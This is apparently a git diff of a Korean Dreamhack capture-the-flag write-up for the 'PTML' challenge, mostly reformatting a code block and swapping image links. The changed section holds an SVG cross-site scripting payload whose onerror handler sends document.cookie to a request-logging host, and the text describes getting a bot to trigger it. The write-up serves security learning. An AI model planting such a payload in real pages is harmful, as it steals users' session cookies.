

write-up r

diff --git a/members/Rookie_W/write_up/Dreamhack/PTML.md b/members/Rookie_W/write_up/Dreamhack/PTML.md
@@ -72,8 +72,8 @@ DOMParser가 XML 파싱 에러(<parsererror>)를 내지 않도록 속성 값 내
 SvgMover 로직 오류를 방지하기 위해 <path> 태그를 구문에 함께 포함하여 exploit.svg를 작성합니다.
 https://tools.dreamhack.games/ 사용
 
-```
-<?xml version="1.0" encoding="UTF-8"?>
+
+```<?xml version="1.0" encoding="UTF-8"?>
 
 <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
 
@@ -81,9 +81,7 @@ https://tools.dreamhack.games/ 사용
 
   <image href="x" onerror="location.href=&apos;http://knzgsym.request.dreamhack.games/?flag=&apos;+encodeURIComponent(document.cookie)"/>
 
-</svg> 
-
-```
+</svg>```
 
 ---
 
@@ -95,13 +93,13 @@ main.py 검증 로직을 통과하고, 동기식으로 실행된 Selenium 봇에
 RequestBin(knzgsym.request.dreamhack.games) 수신 로그의 Referer 헤더 쿼리 스트링에서 URL 인코딩된 값 확인:
 
 
-![image.png](https://dreamhack-media.s3.amazonaws.com/attachments/2b0e0b27fb1ea6e77e7c3091bef245e9502d8da606b44e1d0a70d3f900b5f047.png)
+![alt text](image-7.png)
 
 
 URL 디코딩 수행 후 최종 FLAG 획득:
 flag를 획득 할 수 있었다.
 
-![image.png](https://dreamhack-media.s3.amazonaws.com/attachments/db6a01cd706e577440b8c448b9037b965a6bdbf9999ce4726ae93c529a4bcbe7.png)
+![alt text](image-4.png)
 
 
 ---
